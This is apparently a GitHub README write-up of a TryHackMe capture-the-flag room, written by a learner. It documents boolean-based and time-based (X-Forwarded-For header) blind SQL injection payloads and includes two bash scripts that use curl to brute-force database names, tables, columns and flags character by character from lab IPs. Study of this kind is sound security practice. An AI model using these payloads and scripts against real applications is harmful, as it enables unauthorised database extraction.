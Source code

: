 > Repository created to showcase the queries and scripts developed to solve and obtain the flags of the tryhackme | sqhell machine (https://tryhackme.com/room/sqhell), specifically the flags that required the use of SQL injection techniques: 'Time-based' > X-Forwarded-For and 'Boolean-based'. I want to clarify that I am currently learning about these vulnerabilities and scripting in Bash, so any recommendations and assistance are highly appreciated.

# Blind SQL Injection > ‘Boolean based’

## Determine the length of DB: 
> 
```sql
> admin' AND LENGTH(DATABASE())=8-- - 
> we can try with time sleep to confirm this:
> admin' AND LENGTH(DATABASE())=8 and sleep(20)-- -
```

## Extracting the database name:
```sql
admin' and (select substr(database(),1,1))='s'-- -
```
```sql
admin' and (select substr(schema_name,1,1) from information_schema.schemata)='s'-- -
```
## Use this bash script to extract Database, tables, columns, and the flag. Just change the payload and total_positions(the length):
```bash
#!/bin/bash

trap ctrl_c INT

function ctrl_c() {
    echo -e "\n\n\033[0;31m[!] Exiting...\033[0m"
    exit 1
}

main_url="http://10.10.68.51/register/user-check?username=admin"
characters=( {a..z} {0..9} '!' '@' '#' '$' '%' '^' '&' '*' '(' ')' '-' '_' '=' '+' '[' ']' '{' '}' ';' ':' '<' '>' ',' '.' '?' '/' '\\' '|' '~')

function makeRequest() {

    database=""
    total_positions=8
    total_characters=${#characters[@]}

    echo -e "\n\033[1;32mStarting BruteForce\033[0m\n"

    for ((position=1; position<=total_positions; position++)); do

        for ((i=0; i<total_characters; i++)); do

            character=${characters[i]}
            payload="%27%20and%20(select%20substr(database(),$position,1))=%27$character%27--%20-"
            url_payload=$main_url$payload
            response=$(curl -s "$url_payload")
            echo -ne "\r\033[1;34m[+] Retrieving data:[\033[0m$database$character]"

            if [[ $response == *"false"* ]]; then
                database+=$character
                break
            fi

        done
       
    done

    echo -e "\n\033[1;32mData found:\033[0m \033[1;32m$database\033[0m\n"
}

makeRequest
```

## Check tables:
```sql
admin' and (select substr(table_name,1,1) from information_schema.tables where table_schema='sqhell_3' limit 1)='f'-- -
```
## Check columns:
```sql
admin' and (select substr(column_name,1,1) from information_schema.columns where table_schema='sqhell_3' and table_name='flag' limit 1,1)='f'-- -
```
## Enumerate the column selected ( Get the Flag)
```sql
admin' and (select substr(flag,1,1) from flag limit 1)='t'-- -
```

## To determine the length of the "flag" column from the "flag" table, you can use the following SQL query: 
> 
```sql
> admin' and (select length(flag) from flag limit 1)=43-- -
```

# Blind SQL Injection > ‘Time based’ > X-Forwarded-For

## Determine the length of DB: 
> 
```sql
> X-Forwarded-For:1' AND (SELECT * FROM (SELECT(SLEEP(5)))bAKL) AND LENGTH(DATABASE())=8-- -
```

## Extracting the database name:
```sql
X-Forwarded-For:1' AND (SELECT * FROM (SELECT(SLEEP(5)))bAKL) AND (SELECT substr(database(), 1, 1))='s'-- -
```

## Use this bash script to extract Database, tables, columns, and the flag. Just change the payload:
```bash
#!/bin/bash

trap ctrl_c INT

function ctrl_c() {
    echo -e "\n\n\033[0;31m[!] Exiting...\033[0m"
    exit 1
}

main_url="http://10.10.65.29"
characters=( {a..z} {0..9} '!' '@' '#' '$' '%' '^' '&' '*' '(' ')' '-' '_' '=' '+' '[' ']' '\{' '\}' ';' ':' '<' '>' ',' '.' '?' '/' '\\' '|' '~')

function makeRequest() {

    database=""
    total_positions=8
    total_characters=${#characters[@]}

    echo -e "\n\033[1;32mStarting BruteForce\033[0m\n"

    for ((position=1; position<=total_positions; position++)); do

        for ((i=0; i<total_characters; i++)); do

            character=${characters[i]}

            payload="1' AND (SELECT * FROM (SELECT(SLEEP(5)))bAKL) AND (SELECT substr(database(), $position, 1))='$character'-- -"
            #url_payload=$main_url$payload
            echo -ne "\r\033[1;34m[+] Extracting the database name:[\033[0m$database$character]"
            time_start=$(date +%s.%N)
            response=$(curl -s -H "X-Forwarded-For:$payload" "$main_url")
            time_stop=$(date +%s.%N)

            duration=$(echo "$time_stop - $time_start" | bc )


            if (( $(echo "$duration >= 5" | bc -l) )); then
                database+="$character"
                break
            fi

        done

    done

    echo -e "\n\033[1;32mdatabase found:\033[0m \033[1;32m$database\033[0m\n"
}

makeRequest
```

## Check tables:
```sql
X-Forwarded-For:1' AND (SELECT SLEEP(5) FROM information_schema.tables WHERE table_schema='sqhell_1' AND SUBSTR(table_name, 1, 1) = 'f')-- -
```
## Check columns:
```sql
X-Forwarded-For:1' AND (SELECT SLEEP(5) FROM information_schema.columns WHERE table_schema='sqhell_1' and table_name='flag' AND SUBSTR(column_name, 1, 1) = 'f')-- -
```
## Enumerate the column selected ( Get the Flag)
```sql
X-Forwarded-For:1' AND (SELECT SLEEP(5) FROM flag where length(flag) = 43)-- -
```

## To determine the length of the "flag" column from the "flag" table, you can use the following SQL query: 
> 
```sql
> X-Forwarded-For:1' AND (SELECT SLEEP(5) FROM flag where length(flag) = 43)-- -
```
